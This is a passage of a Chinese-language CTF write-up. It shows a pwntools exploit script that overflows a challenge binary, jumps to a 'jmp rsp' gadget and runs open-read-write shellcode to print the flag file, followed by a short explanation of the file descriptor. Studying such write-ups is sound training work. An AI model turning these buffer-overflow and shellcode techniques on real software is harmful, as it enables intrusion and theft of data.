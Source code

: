 ```bash
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

#dbg()
ru('Easy shellcode, have fun!')

mmap=0x123000
#orw=shellcraft.open('./flag.txt')
orw=shellcraft.open('./flag')
orw+=shellcraft.read(3,mmap,0x50)
orw+=shellcraft.write(1,mmap,0x50)

jmp_rsp=0x400A01

pl=asm(shellcraft.read(0,mmap,0x100))+asm('mov rax,0x123000;call rax')
pl=pl.ljust(0x28,b'\x00')
pl+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp')


sl(pl)

shell=asm(orw)
sl(shell)

p.interactive()
```

解释一下 exp

[![](assets/1701612140-11d10e99b12c295ccb71caf4dfec343b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203640-6261d0f0-3b68-1.png)

*   第一个框就是构造我们 orw 的 shellcode 了，先打开 flag 文件，之后利用 read 写入 flag，再输出 flag

这里先说一下为什么 read 的 fd 是 3，可以结合下面图片，0~2 都是保留的用于缓冲区，我们打开第一个新文件的文件描述符是 3，第二个是 4，以此类推
